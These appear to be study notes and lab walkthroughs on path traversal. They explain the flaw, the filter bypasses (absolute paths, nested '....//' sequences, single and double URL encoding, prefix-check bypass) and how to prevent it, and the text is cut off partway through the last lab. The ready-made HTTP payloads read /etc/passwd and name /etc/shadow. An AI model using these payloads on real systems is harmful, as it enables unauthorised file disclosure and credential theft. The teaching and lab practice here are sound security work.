# Topic: What is Path Traversal?

**Path Traversal** (also called **Directory Traversal**) is a vulnerability that allows an attacker to access files and directories that should not be accessible.

Instead of reading only the intended file, the attacker "travels" through directories and reads other files on the server.

# Real-World Example

Imagine an online shopping website displaying product images.

The page contains:

```html

```

When the browser requests:

```text
/loadImage?filename=218.png
```

the server reads:

```text
/var/www/images/218.png
```

### Directory Structure

```text
/
└── var
    └── www
        └── images
            ├── 218.png
            ├── 219.png
            └── 220.png
```

Everything works normally.

# The Problem

The application trusts whatever filename the user provides.

An attacker changes:

```text
filename=218.png
```

to:

```text
filename=../../../etc/passwd
```

The request becomes:

```text
/loadImage?filename=../../../etc/passwd
```

The application builds:

```text
/var/www/images/../../../etc/passwd
```
# Understanding `../`

The sequence:

```text
../
```

means:

```text
Go up one directory
```

Example:

```text
/var/www/images/
```

After one `../`

```text
/var/www/
```

After second `../`

```text
/var/
```

After third `../`

```text
/
```

Then:

```text
etc/passwd
```

Final path:

```text
/etc/passwd
```

# Visualization

```text
/var/www/images/
        ↑
       ../
/var/www/
        ↑
       ../
/var/
        ↑
       ../
/
        ↓
/etc/passwd
```

The attacker escapes the image folder and accesses a system file.

# What is `/etc/passwd`?

On Linux/Unix systems:

```text
/etc/passwd
```

contains information about system users.

Example:

```text
root:x:0:0:root:/root:/bin/bash
user:x:1000:1000:user:/home/user:/bin/bash
```

This can help attackers learn about the system.

# Windows Example

Windows supports:

```text
..\
```

instead of:

```text
../
```

Example:

```text
filename=..\..\..\windows\win.ini
```

Request:

```text
/loadImage?filename=..\..\..\windows\win.ini
```

The application may return:

```text
C:\Windows\win.ini
```

# Why is Path Traversal Dangerous?

An attacker may access:

### 1. Application Source Code

```text
/config/database.php
```

### 2. Database Credentials

```text
username=admin
password=secret123
```

### 3. Configuration Files

```text
config.yml
settings.json
```

### 4. Operating System Files

Linux:

```text
/etc/passwd
/etc/shadow
```

Windows:

```text
C:\Windows\win.ini
```

# Possible Consequences

```text
Path Traversal
      ↓
Read Sensitive Files
      ↓
Steal Credentials
      ↓
Access Database
      ↓
Take Over Application
```

In severe cases:

```text
Read Files
      ↓
Write Files
      ↓
Upload Malicious Code
      ↓
Full Server Compromise
```

# How Developers Prevent It

### Vulnerable Code

```python
path = "/var/www/images/" + filename
```

User controls `filename`.


### Secure Approach

Allow only specific files:

```python
218.png
219.png
220.png
```

or

Normalize and validate paths before reading files.

# Path Traversal - Reading Arbitrary Files



## Step 1: Intercept a Product Image Request

1. Open any product page.
2. Click on a product image.
3. In Burp Suite, intercept or locate the request in:

```text
Proxy > HTTP History
```

Example request:

```http
GET /image?filename=218.png HTTP/2
```
## Step 2: Modify the Filename Parameter

Change:

```http
filename=218.png
```

to:

```http
filename=../../../etc/passwd
```

Modified request:

```http
GET /image?filename=../../../etc/passwd HTTP/2
```

## Step 3: Forward the Request

1. Send the modified request.
2. Observe the response.

## Step 4: View File Contents

The server returns the contents of:

```text
/etc/passwd
```

Example response:

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
```


## Step 5: Lab Solved


Successfully reading:

```text
/etc/passwd
```

confirms the Path Traversal vulnerability and solves the lab.

# Vulnerability Explanation

### Intended Access

```text
/image?filename=218.png
```

Server reads:

```text
/var/www/images/218.png
```

### Path Traversal Attack

```text
../../../etc/passwd
```

Traversal:

```text
images/
   ↑
../
   ↑
../
   ↑
../
   ↑
/etc/passwd
```

Result:

```text
Server reads arbitrary system files.
```

---

# Topic: Common Obstacles to Exploiting Path Traversal Vulnerabilities


After developers learn about path traversal, they often add protections to block:

```text
../
```

However, these protections are sometimes incomplete and can be bypassed.

# Normal Path Traversal Attack

Suppose the application reads:

```text
/loadImage?filename=218.png
```

Attacker changes it to:

```text
/loadImage?filename=../../../etc/passwd
```

Result:

```text
/etc/passwd
```

is read.


# Obstacle 1: Application Blocks `../`

Some applications try to remove traversal sequences.

Example:

```text
../../../etc/passwd
```

becomes:

```text
etc/passwd
```

The developer thinks the attack is prevented.

# Absolute Path Bypass

Instead of using:

```text
../../../etc/passwd
```

an attacker may try:

```text
filename=/etc/passwd
```

This is called an **absolute path**.

### Relative Path

Starts from the current directory:

```text
../../../etc/passwd
```

### Absolute Path

Starts from the filesystem root:

```text
/etc/passwd
```


# Visualization

### Relative Path

```text
/var/www/images/
      ↑
     ../
/var/www/
      ↑
     ../
/var/
      ↑
     ../
/
      ↓
/etc/passwd
```


### Absolute Path

Directly:

```text
/
/etc/passwd
```

No traversal sequences are needed.


# Why This Works

Suppose the application only checks for:

```text
../
```

and blocks it.

But it does **not** check for:

```text
/etc/passwd
```

Then the attacker can still access the file.


# Linux Example

Request:

```text
/loadImage?filename=/etc/passwd
```

The application may return:

```text
root:x:0:0:root:/root:/bin/bash
```

# Windows Example

An attacker may try:

```text
filename=C:\Windows\win.ini
```

or

```text
filename=C:\Windows\System32\drivers\etc\hosts
```

These are absolute paths on Windows systems.


# Developer Mistake

Developer only blocks:

```text
../
```

but forgets about:

```text
/etc/passwd
C:\Windows\win.ini
```

As a result, sensitive files can still be accessed.

# Path Traversal Using an Absolute Path



## Step 1: Intercept a Product Image Request

1. Open any product page.
2. Click a product image.
3. In Burp Suite, go to:

```text
Proxy > HTTP History
```

4. Locate the image request.

Example:

```http
GET /image?filename=218.png HTTP/2
```

## Step 2: Modify the Filename Parameter

Replace:

```http
filename=218.png
```

with:

```http
filename=/etc/passwd
```

Modified request:

```http
GET /image?filename=/etc/passwd HTTP/2
```

## Step 3: Send the Request

1. Forward the modified request.
2. Observe the response.


## Step 4: Read the File

The application returns the contents of:

```text
/etc/passwd
```

Example:

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...
```


## Step 5: Lab Solved

Successfully retrieving:

```text
/etc/passwd
```

confirms the Path Traversal vulnerability and solves the lab.



# Vulnerability Explanation

### Normal Request

```http
GET /image?filename=218.png
```

Application loads:

```text
/images/218.png
```

### Absolute Path Attack

```http
GET /image?filename=/etc/passwd
```

Instead of loading an image file, the application directly accesses:

```text
/etc/passwd
```

because it fails to validate the filename parameter.

---

# Topic: Bypassing Filters Using Nested Traversal Sequences

## The Problem

Some applications try to stop path traversal attacks by removing:

```text id="2jlwmc"
../
```

from user input.

Example:

Attacker sends:

```text id="xw9gwy"
../../../etc/passwd
```

Application removes all:

```text id="ew7j5s"
../
```

Result:

```text id="jlwm8i"
etc/passwd
```

The attack fails.

# The Bypass Idea

What if the application only removes the exact string:

```text id="6d1hgr"
../
```

once?

An attacker may use:

```text id="5zvt6h"
....//
```

or

```text id="wtm6k6"
....\/
```

These are called **nested traversal sequences**.


# How It Works

### Input

```text id="srl4q4"
....//
```

Let's break it apart:

```text id="vyg9lt"
..../
 /
```

If the application removes one occurrence of:

```text id="8mlkhm"
../
```

the remaining characters can form:

```text id="crzwbf"
../
```

again.


## Example

Attacker sends:

```text id="ehms0z"
....//....//....//etc/passwd
```

Application removes the inner:

```text id="p4etgw"
../
```

from each section.

After filtering, it may become:

```text id="g0c3m0"
../../../etc/passwd
```

Now the path traversal attack works.

# Visualization

### Original Input

```text id="5f4bp5"
....//
```

### Weak Filter Removes

```text id="p72wlh"
../
```

### Remaining Characters Become

```text id="4rl4ih"
../
```

### Final Result

```text id="tvrp2t"
Directory Traversal
```


# Another Example

Attacker sends:

```text id="sp3z4x"
....//....//etc/passwd
```

Filter removes:

```text id="g44nyu"
../
```

Remaining:

```text id="bgmr7u"
../../etc/passwd
```

Attack succeeds.


# Why Does This Happen?

The developer uses a simple filter like:

```text id="kvulq4"
remove("../")
```

instead of properly validating the final path.

The filter changes the input but accidentally creates new traversal sequences.


# Key Lesson

Blocking:

```text id="0lzjlwm"
../
```

alone is not enough.

Attackers often try alternative encodings and nested patterns to bypass weak filters.

A secure application should:

 Normalize the path

 Resolve the final file location

 Verify it stays inside the allowed directory

instead of simply removing characters.

---

# Path Traversal Using Nested Traversal Sequences




## Step 1: Intercept a Product Image Request

1. Open any product page.
2. Click a product image.
3. In Burp Suite, go to:

```text
Proxy > HTTP History
```

4. Locate the image request.

Example:

```http
GET /image?filename=218.png HTTP/2
```

## Step 2: Modify the Filename Parameter

Replace:

```http
filename=218.png
```

with:

```http
filename=....//....//....//etc/passwd
```

Modified request:

```http
GET /image?filename=....//....//....//etc/passwd HTTP/2
```

## Step 3: Send the Request

1. Forward the modified request.
2. Observe the response.


## Step 4: Read the File Contents

The application returns:

```text
/etc/passwd
```

Example response:

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...
```


## Step 5: Lab Solved

Successfully reading:

```text
/etc/passwd
```

solves the lab.




# Why This Works

Some applications attempt to block:

```text
../
```

by removing it from user input.

Example:

```text
../../../etc/passwd
```

becomes:

```text
etc/passwd
```

and the attack fails.


## Bypass Technique

Using:

```text
....//
```

When the application removes:

```text
../
```

the remaining characters become:

```text
../
```

Example:

```text
....//....//....//etc/passwd
```

↓

After filtering:

```text
../../../etc/passwd
```

↓

Server reads:

```text
/etc/passwd
```


# Request Example

### Original Request

```http
GET /image?filename=218.png HTTP/2
```

### Modified Request

```http
GET /image?filename=....//....//....//etc/passwd HTTP/2
```

---
# Topic: Bypassing Path Traversal Filters Using URL Encoding

## Simple Idea

Some web servers try to protect applications by removing:

```text
../
```

before the request reaches the application.

For example:

```text
../../../etc/passwd
```

becomes:

```text
etc/passwd
```

The attack fails.

However, attackers may try to hide the traversal sequence using **encoding**.


# What is URL Encoding?

Certain characters can be represented using hexadecimal values.

Examples:

| Character | URL Encoded |
| --------- | ----------- |
| `.`       | `%2e`       |
| `/`       | `%2f`       |
| `\`       | `%5c`       |

So:

```text
../
```

becomes:

```text
%2e%2e%2f
```

# Example

Normal traversal:

```text
../../../etc/passwd
```

URL-encoded traversal:

```text
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd
```

If the server decodes the input after filtering, the traversal may still work.


# Double URL Encoding

Sometimes the server decodes input twice.

In such cases, attackers may encode the `%` character itself.

### First Encoding

```text
../
```

↓

```text
%2e%2e%2f
```

### Second Encoding

```text
%252e%252e%252f
```

because:

```text
%  →  %25
```

## Decoding Process

### User Sends

```text
%252e%252e%252f
```

### First Decode

```text
%2e%2e%2f
```

### Second Decode

```text
../
```

Now the traversal sequence appears again.


# Visualization

```text
../
 ↓
%2e%2e%2f
 ↓
%252e%252e%252f
```

Server:

```text
%252e%252e%252f
 ↓ Decode #1
%2e%2e%2f
 ↓ Decode #2
../
```


# Non-Standard Encodings

Some systems may accept unusual encodings.

Examples:

```text
..%c0%af
```

```text
..%ef%bc%8f
```

These can sometimes be interpreted as:

```text
../
```

depending on how the application processes input.


# Why Does This Work?

The problem occurs when:

```text
Filter
   ↓
Decode
```

instead of:

```text
Decode
   ↓
Validate
```

The filter never sees the real traversal sequence because it is hidden inside encoded characters.


# Example Attack Flow

```text
Attacker
    ↓
Sends %2e%2e%2f
    ↓
Web Server
    ↓
Decodes to ../
    ↓
Application
    ↓
Reads sensitive file
```

# Burp Suite Tip

In practical labs and penetration testing, testers often try multiple encoded traversal payloads.

**Burp Suite Intruder** includes a predefined payload list called:

```text
Fuzzing - path traversal
```

which contains various encoded traversal patterns for testing.

---
# Path Traversal Using Double URL Encoding



## Step 1: Intercept a Product Image Request

1. Open any product page.
2. Click on a product image.
3. In Burp Suite, go to:

```text
Proxy > HTTP History
```

4. Locate the image request.

Example:

```http
GET /image?filename=218.png HTTP/2
```

## Step 2: Modify the Filename Parameter

Replace:

```http
filename=218.png
```

with:

```http
filename=..%252f..%252f..%252fetc/passwd
```

Modified request:

```http
GET /image?filename=..%252f..%252f..%252fetc/passwd HTTP/2
```

## Step 3: Send the Request

1. Forward the modified request.
2. Observe the response.


## Step 4: View File Contents

The application returns the contents of:

```text
/etc/passwd
```

Example:

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...
```



## Step 5: Lab Solved

Successfully reading:

```text
/etc/passwd
```

solves the lab.



# Why This Works

## Normal Traversal

```text
../../../etc/passwd
```

contains:

```text
../
```

Many applications block this pattern.

## Single URL Encoding

```text
..%2f..%2f..%2fetc/passwd
```

where:

```text
%2f = /
```

Some filters decode and block this.

## Double URL Encoding

Payload used:

```text
..%252f..%252f..%252fetc/passwd
```

where:

```text
%25 = %
```

First decode:

```text
..%2f..%2f..%2fetc/passwd
```

Second decode:

```text
../../../etc/passwd
```

Result:

```text
Server processes the traversal sequence.
```

while the filter may only inspect the first decoding stage.

# Decoding Process

### Payload Sent

```text
..%252f..%252f..%252fetc/passwd
```

↓

### First Decode

```text
..%2f..%2f..%2fetc/passwd
```

↓

### Second Decode

```text
../../../etc/passwd
```

↓

### Final File Accessed

```text
/etc/passwd
```

# Request Example

### Original Request

```http
GET /image?filename=218.png HTTP/2
```

### Modified Request

```http
GET /image?filename=..%252f..%252f..%252fetc/passwd HTTP/2
```

---

# Topic: Bypassing Base Folder Validation

## The Problem

Some applications try to prevent path traversal by checking that the filename starts with an expected directory.

Example:

```text id="e4y8mb"
/var/www/images
```

The developer thinks:

```text id="v8p6ki"
"If every file starts with /var/www/images,
the user can only access image files."
```

# Normal Request

User requests:

```text id="9t4u9r"
filename=/var/www/images/218.png
```

Application checks:

```text id="sdgzxk"
Starts with /var/www/images ?
```

Result:

```text id="lq5qls"
YES ✓
```

The file is returned.


# Vulnerable Check

Suppose the application only verifies:

```text id="5tzbvm"
filename starts with:
/var/www/images
```

but does not check the final resolved path.


# Attacker Bypass

The attacker supplies:

```text id="4k8flv"
filename=/var/www/images/../../../etc/passwd
```

Application checks:

```text id="m6n8lj"
Starts with /var/www/images ?
```

Result:

```text id="95uqyz"
YES ✓
```

The validation passes.


# What Actually Happens?

The operating system resolves:

```text id="t8n5f7"
/var/www/images/../../../etc/passwd
```

Step by step:

```text id="qwb6tq"
/var/www/images
       ↑
      ../
/var/www
       ↑
      ../
/var
       ↑
      ../
/
       ↓
/etc/passwd
```

Final path:

```text id="2w3b3j"
/etc/passwd
```


# Visualization

```text id="1epviy"
Input:
/var/www/images/../../../etc/passwd

Validation:
Starts with /var/www/images ?  ✓

Filesystem Resolves:
↓

/etc/passwd
```

The application thinks it is accessing an image file, but the operating system accesses a sensitive system file.


# Why Does This Work?

The developer checks:

```text id="uxzq0e"
Raw Input
```

instead of:

```text id="l4o7wv"
Final Resolved Path
```

This is a common mistake.


# Secure Validation

### Bad

```text id="7w2n2w"
filename starts with
/var/www/images
```

### Good

1. Normalize the path.
2. Resolve all `../` sequences.
3. Check whether the final path is still inside:

```text id="vccjwx"
/var/www/images
```

If not:

```text id="pr3mmo"
Access Denied
```


# Example

### User Input

```text id="7g8q9h"
/var/www/images/../../../etc/passwd
```

### Normalized Path

```text id="w3p0r4"
/etc/passwd
```

### Validation

```text id="s03w2g"
Is /etc/passwd inside
/var/www/images ?
```

Result:

```text id="tqyrxn"
NO ✗
```

Request blocked.

---

# Path Traversal Using Absolute Path Prefix Bypass




## Step 1: Intercept a Product Image Request

1. Open any product page.
2. Click on a product image.
3. In Burp Suite, go to:

```text
Proxy > HTTP History
```

4. Locate the image request.

Example:

```http
GET /image?filename=218.png HTTP/2
```


## Step 2: Modify the Filename Parameter

Replace:

```http
filename=218.png
```

with:

```http
filename=/var/www/images/../../../etc/passwd
```

Modified request:

```http
GET /image?filename=/var/www/images/../../../etc/passwd HTTP/2
```

## Step 3: Send the Request

1. Forward the modified request.
2. Observe the response.


## Step 4: Read the File Contents
